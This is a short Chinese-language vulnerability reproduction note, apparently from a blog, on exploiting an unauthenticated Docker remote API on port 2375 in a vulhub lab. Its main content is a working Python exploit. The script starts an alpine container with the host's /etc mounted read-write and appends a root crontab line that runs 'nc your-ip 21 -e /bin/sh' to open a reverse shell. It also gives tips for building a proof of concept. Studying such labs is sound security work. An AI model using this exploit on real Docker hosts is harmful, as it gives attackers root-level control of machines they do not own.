


### 复现环境

这个环境，就直接去vulhub上面找吧

### 利用方法

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

下面是来自vulhub的一个简单的python脚本

```python

import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

上面执行的命令是利用nc反弹shell,我们在写python poc的时候可以执行ping命令，利用dnslog的方式来验证漏洞




### python poc效果

再编写python poc时需要注意，docker任务计划表还是有一定延时才能执行命令，所以，我们需要使用time.sleep()等待几秒钟

